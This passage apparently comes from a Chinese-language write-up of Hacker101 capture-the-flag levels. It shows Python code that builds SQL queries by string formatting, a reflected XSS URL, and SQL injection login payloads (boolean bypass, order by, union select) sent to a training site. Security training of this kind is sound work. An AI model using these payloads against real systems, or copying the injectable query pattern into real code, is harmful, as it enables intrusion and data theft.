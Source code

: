 ```
@handler(CSRFable=True)
def post_add(firstname, lastname):
	db.query("INSERT INTO `students` (firstname, lastname, sessid) VALUES ('%s', '%s', '%s');" % (firstname, lastname, handler.sessid()))

	redirect(get_index)

if not db.hastable('students'):
	db.maketable('students', 
		lastname='VARCHAR(1024)', 
		firstname='VARCHAR(1024)', 
		sessid='CHAR(16)'
	)
```

[](#level-7 "level 7")level 7
-----------------------------

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519959728275.png)

###XSS

登录错误提示页面存在 XSS 漏洞，username 特殊符号经过了转译，而 password 没有。

```
https://levels-b.hacker101.com/level7?error=User+does+not+exist&user)</script>
```

### [](#SQL-Injection-1 "SQL Injection")SQL Injection

```
csrf=9c1debdb7dcc0f6a1c67bd4f20454a1b&username=admin' or 1 ’# &password=
```

得到报错信息，user = db.query(“SELECT password FROM users WHERE username=’%s’” % username)  
![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519954198293.png)

```
csrf=9c1debdb7dcc0f6a1c67bd4f20454a1b&username=admin' or 1#&password=
```

先前一直在再试万能密码，但是仍旧提示用户不存在，即查询到的结果为空。猜测表中没有数据。

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519957352419.png)

后使用 union 查询，实现注入。

```
csrf=9c1debdb7dcc0f6a1c67bd4f20454a1b&username=admin' order by 1#&password=
csrf=9c1debdb7dcc0f6a1c67bd4f20454a1b&username=admin'union select 1 #&password=1
```

![](https://delikely.github.io/2018/04/14/Hacker101-writeup/1519957176364.png)

此题是根据用户名在数据库中查询密码，然后与提交的密码来判断是否一致。

